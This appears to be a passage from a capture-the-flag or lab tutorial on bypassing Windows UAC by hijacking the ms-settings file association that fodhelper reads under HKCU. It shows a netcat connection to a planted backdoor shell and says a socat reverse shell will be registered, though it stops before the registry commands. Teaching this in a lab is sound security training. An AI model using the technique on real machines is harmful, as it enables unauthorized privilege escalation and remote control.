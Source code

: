 |   |   |
|---|---|
|**Path**|**Description**|
|HKEY_LOCAL_MACHINE\Software\Classes|System-wide file associations|
|HKEY_CURRENT_USER\Software\Classes|Active user's file associations|

When checking HKEY_CLASSES_ROOT, if there is a user-specific association at **HKEY_CURRENT_USER (HKCU)**, it will take priority. If no user-specific association is configured, then the system-wide association at **HKEY_LOCAL_MACHINE (HKLM)** will be used instead. This way, each user can choose their preferred applications separately if desired.  

Going back to fodhelper, we now see that it's trying to open a file under the ms-settings ProgID. By creating an association for that ProgID in the current user's context under HKCU, we will override the default system-wide association and, therefore, control which command is used to open the file. Since fodhelper is an autoElevate executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing UAC.  

  

### Putting it all together

One of our agents has planted a backdoor on the target server for your convenience. He managed to create an account within the Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the flag, he needs you to bypass UAC and get a fully functional high IL shell.

To connect to the backdoor, you can use the following command:

```
nc 10.10.86.125 9999
```

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

Attacker's Shell

```shell-session
user@kali$ nc 10.10.86.125 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:
